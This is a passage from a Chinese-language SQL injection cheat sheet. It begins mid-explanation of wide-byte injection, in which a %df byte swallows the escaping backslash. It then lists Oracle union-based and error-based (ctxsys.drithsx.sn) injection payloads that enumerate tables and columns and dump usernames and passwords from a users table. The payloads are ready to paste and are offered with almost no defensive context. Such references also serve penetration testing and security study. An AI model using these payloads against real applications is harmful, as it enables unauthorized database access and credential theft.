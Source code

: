 `\`

编码为

`%5c`

，宽字节中两个字节代表一个汉字，所以把

`%df`

加上

`%5c`

就变成了一个汉字 “運”，使用这种方法成功绕过转义，就是所谓的宽字节注入

```
id=-1%df' union select...

#没使用宽字节
%27 -> %5C%27 

#使用宽字节
%df%27 -> %df%5c%27 -> 運'


```

0x02 Oracle 手工注入
----------------

### 2.1 联合注入

```
?id=-1' union select user,null from dual--
?id=-1' union select version,null from v$instance--
?id=-1' union select table\_name,null from (select \* from (select rownum as limit,table\_name from user\_tables) where limit=3)--
?id=-1' union select column\_name,null from (select \* from (select rownum as limit,column\_name from user\_tab\_columns where table\_name ='USERS') where limit=2)--
?id=-1' union select username,passwd from users--
?id=-1' union select username,passwd from (select \* from (select username,passwd,rownum as limit from users) where limit=3)--


```

### 2.2 报错注入

```
?id=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select banner from v$version where banner like 'Oracle%))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select table\_name from (select rownum as limit,table\_name from user\_tables) where limit= 3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select column\_name from (select rownum as limit,column\_name from user\_tab\_columns where table\_name ='USERS') where limit=3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select passwd from (select passwd,rownum as limit from users) where limit=1))--


```
